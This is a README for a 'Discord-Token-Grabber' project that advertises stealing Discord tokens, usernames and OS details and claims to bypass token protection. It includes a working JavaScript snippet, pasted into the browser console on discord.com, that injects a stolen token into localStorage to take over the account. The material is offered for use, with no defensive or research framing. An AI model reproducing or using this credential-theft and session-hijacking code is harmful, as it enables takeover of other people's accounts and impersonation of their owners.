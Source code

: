 # Discord-Token-Grabber
![Token-Stealer](https://i.imgur.com/cpK3bNV.jpeg)

# Features
* Steal Token directly From memory 
* Steal 
  * Discord Token
  * username
  * os version
  * bypass any kind of token protection


# How to login using token
* open inspect element in https://discord.com/ ,copy and paste this code in console  

```js
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}
```
* use `login("token");` then refresh the webpage ,and you will login automatically to the account using only token
